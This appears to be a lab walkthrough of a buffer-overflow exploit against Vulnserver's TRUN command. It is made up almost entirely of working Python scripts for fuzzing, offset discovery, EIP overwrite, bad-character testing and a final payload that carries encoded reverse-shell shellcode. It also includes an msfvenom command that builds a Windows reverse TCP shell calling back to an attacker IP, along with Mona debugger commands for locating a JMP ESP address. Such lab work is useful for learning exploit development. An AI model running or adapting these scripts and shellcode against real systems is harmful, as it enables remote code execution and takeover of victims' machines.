

Here we are doing Byte encoding cuz it is not working without it and sending TRUN in payload.
Fuzzing
#!/bin/python
import sys,socket
from time import sleep
buffer = "A" * 100
while True:
try:
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('192.168.205.135',9999))
payload = "TRUN /.:/" + buffer
s.send((payload.encode()))
s.close()
sleep(1)
buffer = buffer + "A"*100
except:
print("Fuzzing crashed at %s bytes" % str(len(buffer)))
sys.exit()
Offset
#!/usr/bin/python
import sys,socket
from time import sleep
offset = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2Df3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9Dm0Dm1Dm2Dm3Dm4Dm5Dm6Dm7Dm8Dm9Dn0Dn1Dn2Dn3Dn4Dn5Dn6Dn7Dn8Dn9Do0Do1Do2Do3Do4Do5Do6Do7Do8Do9Dp0Dp1Dp2Dp3Dp4Dp5Dp6Dp7Dp8Dp9Dq0Dq1Dq2Dq3Dq4Dq5Dq6Dq7Dq8Dq9Dr0Dr1Dr2Dr3Dr4Dr5Dr6Dr7Dr8Dr9Ds0Ds1Ds2Ds3Ds4Ds5Ds6Ds7Ds8Ds9Dt0Dt1Dt2Dt3Dt4Dt5Dt6Dt7Dt8Dt9Du0Du1Du2Du3Du4Du5Du6Du7Du8Du9Dv0Dv1Dv2Dv3Dv4Dv5Dv6Dv7Dv8Dv9"
try:
s = socket.socket(socket.AF_INET , socket.SOCK_STREAM)
s.connect(('192.168.205.135',9999))
payload = "TRUN /.:/" + offset
s.send((payload.encode()))
s.close()
except:
print "Error Connnecting To The Server"
sys.exit()
OverWriting EIP
#!/usr/bin/python
import sys,socket
from time import sleep
shellcode = "A"* 2003 + "B"* 4
try:
s = socket.socket(socket.AF_INET , socket.SOCK_STREAM)
s.connect(('192.168.205.135',9999))
payload = "TRUN /.:/" + shellcode
s.send((payload.encode()))
s.close()
except:
print "Error Connnecting To The Server"
sys.exit()
Badcharacter
#!/usr/bin/python3
import sys, socket
from time import sleep
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13"
"\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26"
"\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39"
"\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c"
"\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72"
"\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85"
"\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98"
"\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab"
"\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe"
"\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1"
"\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4"
"\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7"
"\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
shellcode = "A" * 2003 + "B" * 4 + badchars
try:
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('192.168.205.135',9999))
payload = "TRUN /.:/" + shellcode
s.send((payload.encode()))
s.close()
except:
print ("Error connecting to server")
sys.exit()
Immunity Debugger and will load the Vulnserver in it and see couple of commands in it
- Will set a working configuration directory here (i.e. Mona)
Command : !mona config -set workingfolder c:\mona
Command : !mona bytearray -cpb "\x00"

Will create bytearray for us (i.e. we don't have to use github to generate Badchars for us)
After we run the badcharacter.py file in Kali Linux
And instead of doing Follow in Dump and Manually reviewing everything will use the .bin file and let Mona
do the finding bad character stuff for us.
!mona compare -f c:\mona\bytearray.bin -a 009AF9C8

Will bypass the whole process to find the jmp return address of essfunc.dll using mona
Command : !mona jmp -r ESP -m "essfunc.dll"
gainingshell.py
#!/usr/bin/python3
import sys, socket
from time import sleep
overflow = (
b"\xda\xc5\xd9\x74\x24\xf4\xbf\xa9\xa7\x52\x5f\x5d\x2b\xc9\xb1"
b"\x52\x31\x7d\x17\x03\x7d\x17\x83\x44\x5b\xb0\xaa\x6a\x4c\xb7"
b"\x55\x92\x8d\xd8\xdc\x77\xbc\xd8\xbb\xfc\xef\xe8\xc8\x50\x1c"
b"\x82\x9d\x40\x97\xe6\x09\x67\x10\x4c\x6c\x46\xa1\xfd\x4c\xc9"
b"\x21\xfc\x80\x29\x1b\xcf\xd4\x28\x5c\x32\x14\x78\x35\x38\x8b"
b"\x6c\x32\x74\x10\x07\x08\x98\x10\xf4\xd9\x9b\x31\xab\x52\xc2"
b"\x91\x4a\xb6\x7e\x98\x54\xdb\xbb\x52\xef\x2f\x37\x65\x39\x7e"
b"\xb8\xca\x04\x4e\x4b\x12\x41\x69\xb4\x61\xbb\x89\x49\x72\x78"
b"\xf3\x95\xf7\x9a\x53\x5d\xaf\x46\x65\xb2\x36\x0d\x69\x7f\x3c"
b"\x49\x6e\x7e\x91\xe2\x8a\x0b\x14\x24\x1b\x4f\x33\xe0\x47\x0b"
b"\x5a\xb1\x2d\xfa\x63\xa1\x8d\xa3\xc1\xaa\x20\xb7\x7b\xf1\x2c"
b"\x74\xb6\x09\xad\x12\xc1\x7a\x9f\xbd\x79\x14\x93\x36\xa4\xe3"
b"\xd4\x6c\x10\x7b\x2b\x8f\x61\x52\xe8\xdb\x31\xcc\xd9\x63\xda"
b"\x0c\xe5\xb1\x4d\x5c\x49\x6a\x2e\x0c\x29\xda\xc6\x46\xa6\x05"
b"\xf6\x69\x6c\x2e\x9d\x90\xe7\x91\xca\x57\x77\x79\x09\x67\x69"
b"\x26\x84\x81\xe3\xc6\xc0\x1a\x9c\x7f\x49\xd0\x3d\x7f\x47\x9d"
b"\x7e\x0b\x64\x62\x30\xfc\x01\x70\xa5\x0c\x5c\x2a\x60\x12\x4a"
b"\x42\xee\x81\x11\x92\x79\xba\x8d\xc5\x2e\x0c\xc4\x83\xc2\x37"
b"\x7e\xb1\x1e\xa1\xb9\x71\xc5\x12\x47\x78\x88\x2f\x63\x6a\x54"
b"\xaf\x2f\xde\x08\xe6\xf9\x88\xee\x50\x48\x62\xb9\x0f\x02\xe2"
b"\x3c\x7c\x95\x74\x41\xa9\x63\x98\xf0\x04\x32\xa7\x3d\xc1\xb2"
b"\xd0\x23\x71\x3c\x0b\xe0\x91\xdf\x99\x1d\x3a\x46\x48\x9c\x27"
b"\x79\xa7\xe3\x51\xfa\x4d\x9c\xa5\xe2\x24\x99\xe2\xa4\xd5\xd3"
b"\x7b\x41\xd9\x40\x7b\x40")
shellcode = b"A" * 2003 + b"\xaf\x11\x50\x62" + b"\x90" * 16 + overflow
try:
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('192.168.205.135',9999))
payload = b"TRUN /.:/" + shellcode
s.send((payload))
print("running")
s.close()
except:
print ("Error connecting to server")
sys.exit()

So able to get the root shell with python3 as well but has to copy the paylaod from the python2 generating shellcode.
(i.e. msfvenom -p windows/shell_reverse_tcp LHOST=192.168.205.128 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00")